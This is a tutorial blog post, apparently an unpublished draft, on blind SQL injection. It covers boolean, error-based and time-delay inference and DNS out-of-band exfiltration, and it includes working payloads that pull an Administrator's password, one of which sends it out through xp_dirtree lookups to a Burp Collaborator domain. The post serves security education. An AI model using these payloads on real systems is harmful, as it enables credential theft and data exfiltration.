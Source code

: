 ```yaml
---
layout: post
title: Blind Injection Attacks
status: in progress
type: post
published: false
comments: true
date: 2021-10-07
---
```


# Blind sql injections

Not all  sql injections return results that we are able to see. This makes getting information out of them significantly harder, however still possible.

## Finding Blind injections
One way you can find blind injections is by using conditionals. For example is you have a login or tracking cookie you can add conditional injects that force pass and that force fail. For example if you are injecting into the WHERE you can:
```
stuff' AND '1'='1
stuff' AND '2'='1
```
We can see that the first injection will always return true and won't have an effect on the clause and the second will force it to always fail.

## using conditionals to extract data

Once we find injections that work with conditional statements we are able to begin extracting data 1 bit at a time from the database.

Assume there is a tale of users with column of Username and Password. We can then included the following conditional.

```SQL
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
```

In this case we select the Password From Users for the Administrator and then get the 1st char from it. We then compare that care with 'm' We can use this to cut off half the alphabet at a time till we can guess the first letter. We then move on to the second letter and so on and so forth until we are able to pull the entire password out.

## Conditional responses based on errors
You may not always get a detectable response in the returned data from you sql injection. In this case you can use conditional responses to force an detectable error. For example:
```SQL
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a  
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

In these injections you are able to see that the second one will always cause a divide by 0 error and the first one will not. These errors (or others) may be detectable while others are not. If these errors are detectable then you you can follow the same methodology as above to extract data one bit at a time. 


## Conditional time delays

Sometimes servers may properly handle errors in a way that you are unable to detect. In this case, you may be able to use conditional time delays to discover if injection is possible. For example:
```SQL
`'; IF (1=2) WAITFOR DELAY '0:0:10'--  
'; IF (1=1) WAITFOR DELAY '0:0:10'--`
```
You can see that the first line will never cause a time delay and the second line will always cause a time delay. While this may be very slow, you can use it to extract data 1 bit at a time with something like the following:
```SQL
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

## Exploiting blind injection with out-of-band techniques

However, none of these techniques may work if the server carries out the request asynchronously. It is still possible to carry out injection attacks, however it has to be done using an out-of-band communication method, The most common one is DNS. The idea is that the attacker controls the DNS server for a domain name and forces the SQL database to look up a subdomain of the controlled domain with the subdomain being dependent on what the results of the injection are. 

For example, On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:

`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

This will cause the database to perform a lookup for the following domain:

`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

It is then possible to extract data with the following:

```SQL
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

This lets you extract data much quicker, which makes this a significantly better attack.

